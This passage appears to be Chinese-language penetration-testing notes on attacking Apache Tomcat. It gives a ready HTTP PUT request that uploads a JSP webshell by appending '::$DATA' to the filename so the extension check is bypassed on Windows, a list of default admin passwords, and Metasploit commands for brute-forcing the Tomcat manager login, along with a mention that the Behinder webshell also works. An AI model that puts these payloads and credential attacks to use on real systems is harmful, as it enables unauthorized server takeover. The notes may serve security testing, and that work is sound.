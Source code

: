 备注：我尝试了冰蝎，也是可以的

其它payload：

在window的时候如果文件名+"::$DATA"会把::$DATA之后的数据当成文件流处理,不会检测后缀名，且保持::$DATA之前的文件名，他的目的就是不检查后缀名

```
PUT /111.jsp::$DATA HTTP/1.1
Host: 10.1.1.6:8080
User-Agent: JNTASS
DNT: 1
Connection: close

...jsp shell...
```

参考文章：

* https://blog.csdn.net/qq\_36241198/article/details/114883818

**Tomcat8+弱口令+后台getshell漏洞**

Tomcat支持在后台部署war文件，可以直接将webshell部署到web目录下。其中，欲访问后台，需要对应用户有相应权限。

tomcat弱口令:（其它需要抓包爆破，可用xray爆破）

```
admin/admin
tomcat/tomcat
tomcat/admin
admin/123456
```

**msf弱口令爆破**

```
use auxiliary/scanner/http/tomcat_mgr_login
set rhosts 192.168.52.130
set rport 8080
run
```
